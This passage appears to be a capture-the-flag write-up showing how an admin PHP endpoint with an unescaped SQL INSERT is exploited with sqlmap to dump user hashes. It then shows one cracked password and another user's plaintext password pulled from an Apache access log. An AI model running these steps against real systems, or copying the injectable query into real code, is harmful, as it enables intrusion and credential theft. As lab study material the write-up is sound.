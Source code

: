 Then we successfully login to admin, and from the source code, we find a sql injection from `/accept_cat.php`
```
<?php
include 'config.php';
session_start();

if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (isset($_POST['catId']) && isset($_POST['catName'])) {
            $cat_name = $_POST['catName'];
            $catId = $_POST['catId'];
            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
            $pdo->exec($sql_insert);

            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
            $stmt_delete->execute();

            echo "The cat has been accepted and added successfully.";
        } else {
            echo "Error: Cat ID or Cat Name not provided.";
        }
    } else {
        header("Location: /");
        exit();
    }
} else {
    echo "Access denied.";
}
?>

```
Although it use Insert not used select, but it did not perform parameter escaping.
So we can use sqlmap to crack the database
`sqlmap -r accept-cat-sqli-req -p catName --dbms sqlite --level 5 --risk 3 --technique=BEST --tables`
And we can get the hashes of users
```
1|axel|axel2017@gmail.com|d1bbba3670feb9435c9841e46e60ee2f
2|rosa|rosamendoza485@gmail.com|ac369922d560f17d6eeb8b2c7dec498c
3|robert|robertcervantes2000@gmail.com|42846631708f69c00ec0c0a8aa4a92ad
4|fabian|fabiancarachure2323@gmail.com|39e153e825c4a3d314a0dc7f7475ddbe
5|jerryson|jerrysonC343@gmail.com|781593e060f8d065cd7281c5ec5b4b86
6|larry|larryP5656@gmail.com|1b6dce240bbfbc0905a664ad199e18f8
7|royer|royer.royer2323@gmail.com|c598f6b844a36fa7836fba0835f1f6
8|peter|peterCC456@gmail.com|e41ccefa439fc454f7eadbf1f139ed8a
9|angel|angel234g@gmail.com|24a8ec003ac2e1b3c5953a6f95f8f565
10|jobert|jobert2020@gmail.com|88e4dceccd48820cf77b5cf6c08698ad
11|patch|asdf@asdf|e0a28f0f66c369000ba6590857885b27
```
But we can only crack `rosa` password hash.
`rosa:	soyunaprincesarosa`
And rosa is from `adm` group, that means she can check the log files of apache, and we can also check the `access.log`
Then we found `cat access.log | grep axel`
`/join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q`
We get `axel:aNdZwgC4tI9gnVXv_e3Q` and we can su or ssh

